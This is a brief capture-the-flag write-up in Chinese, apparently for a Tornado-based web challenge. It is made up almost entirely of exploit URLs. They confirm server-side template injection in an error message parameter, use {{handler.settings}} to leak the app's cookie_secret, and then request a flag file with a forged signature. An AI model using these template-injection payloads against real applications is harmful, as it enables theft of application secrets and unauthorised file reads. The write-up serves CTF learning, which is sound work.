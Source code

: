 ##  (Title)

##  Tools

NULL

##  Steps

* Step 1   
报错时的error参数存在模板注入
```
http://49.4.78.81:30980/error?msg={{1^0}}
```
提交
```
http://49.4.78.81:30980/error?msg={{handler.settings}}
```
可以看到cookie_secret  
伪造签名读取flag
```
http://49.4.78.81:30980/file?filename=/fllllllllllag&signature=7bae09c2c6e2f6aa34df7dbee23db960
```




